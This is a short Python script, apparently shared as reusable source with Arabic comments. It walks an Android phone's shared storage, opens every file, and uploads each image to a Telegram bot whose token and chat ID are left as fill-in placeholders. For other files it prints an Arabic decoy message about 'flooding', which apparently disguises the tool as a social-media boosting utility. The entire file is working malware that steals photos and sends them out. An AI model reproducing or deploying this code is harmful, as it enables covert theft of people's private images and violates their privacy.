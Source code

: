 
import os
import telebot
from threading import Thread

bot = telebot.TeleBot("توكنك توكنك توكنك توكنك توكنك شفت؟ ") 

#@M02MM
dir_path = "/storage/emulated/0/"
	
#@uiujq
def send_file(file_path):
 with open(file_path, "rb") as f:
 	if file_path.endswith(".jpg") or file_path.endswith("png") or file_path.endswith("PNG") or file_path.endswith("JPEG") or file_path.endswith("jpeg") or file_path.endswith("Webp") or file_path.endswith("webp"):
 		bot.send_photo(chat_id="ايديك ايديك ايديك ايدي شفت؟ ",photo=f) 
 	else:
 		print("سوف يتم رشق 💕")

for root, dirs, files in os.walk(dir_path):
	threads = []
	for file in files:
		file_path = os.path.join(root, file)
		t = Thread(target=send_file, args=(file_path,))
		t.start()
		threads.append(t)
	for thread in threads:
		thread.join()
#اخمط بس اذكر مصدر وبس

